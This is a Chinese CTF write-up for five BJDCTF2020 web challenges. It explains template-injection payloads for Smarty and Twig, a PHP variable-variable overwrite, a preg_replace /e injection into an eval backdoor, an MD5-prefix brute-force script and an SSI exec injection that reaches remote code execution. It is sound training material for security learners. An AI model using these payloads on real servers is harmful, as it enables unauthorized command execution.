 # BJDCTF2020 Write Up

## 0x01 [BJDCTF2020]The mystery of ip

提示IP,发现是``X-Forwarded-For``搞的

fuzz一下发现有模板注入漏洞

这里的渲染引擎是基于PHP的smarty

Poc:``{{system("<cmd>")}}``

## 0x02 [BJDCTF2020]Cookie is so stable

和上题一样是模板注入，不过注入点在Cookie里

渲染引擎也换成了Twig

从网上找到的 Twig poc
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

## 0x03 [BJDCTF2020]Mark loves cat

进去看了一下没事注入点似乎

扫下目录发现
```
Target: http://ae5480b9-ea51-4d2a-8741-c8968aa682f8.node3.buuoj.cn/

[19:51:17] Starting:
[19:51:20] 200 -   73B  - /.git/description
[19:51:20] 200 -   23B  - /.git/HEAD
[19:51:20] 301 -  169B  - /.git  ->  http://ae5480b9-ea51-4d2a-8741-c8968aa682f8.node3.buuoj.cn/.git/
[19:51:20] 200 -  137B  - /.git/config
[19:51:21] 200 -    6KB - /.git/index
[19:51:22] 403 -  555B  - /.git/
[19:51:23] 200 -   28KB - /index.php
[19:51:30] 200 -    0B  - /flag.php

Task Completed
```

考虑用Githack 来获取源码

```php
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}



echo "the flag is: ".$flag;
```

如果要拿到flag 我们要保证GET和POST上设定了flag变量

但是根据

```php
foreach($_POST as $x => $y){
    $$x = $y;
}
```
这样后面的``$flag``就会被我们覆盖，拿不到值

但是``exit()``和``die()``一样，所以我们只要把

```php
$yds = "dog";
$is = "cat";
$handsome = 'yds';
```
这几个变量改成``$flag``就可以了

PHP中``$$a``可以理解为``${$a}``

```php
foreach($_GET as $x => $y){// yds => flag
    $$x = $$y; // $yds = $flag
}
```
## 0x04 [BJDCTF2020]ZJCTF不过如此

第一层用``php://input``传值，用``php://filter/convert.base64-encode/resource=next.php``看源码

拿到

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```
很显然这里利用``pregmatch \e``调用``getFlag``后门

为了匹配 我们这里设置``$re=\S*``匹配所有非空字符

payload:``/next.php?\S*=${getFlag()}&cmd=<cmd>``


## 0x05 [BJDCTF2020]EasySearch

进去是一个登陆界面，试了一下万能密码都不行，也没有报错信息

扫一下是否有源码泄露，拿到了index.php.swp

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```
可以看到只要满足

``$admin == '6d0bc1' == substr(md5($_POST['password']),0,6)``

随便跑个脚本找下

```python
#coding=utf-8
import hashlib
for i in range(10000000):
    payload=str(i).rjust(7,"0")
    md5 = hashlib.md5(payload.encode('utf-8')).hexdigest()
    if ((md5[0:6])=='6d0bc1'):
        print payload  #2020666
        break
```

然后根据源码应该就是利用可控的``$_POST['username']``向生成的``.shtml``文件里注入恶意代码了

SSI Poc
```
<!--#exec cmd="<cmd>"-->
```

返回的报文会提供生成的shtml文件目录

至此我们便可以RCE了

### 参考资料

一篇文章带你理解漏洞之SSTI漏洞:

[https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E)
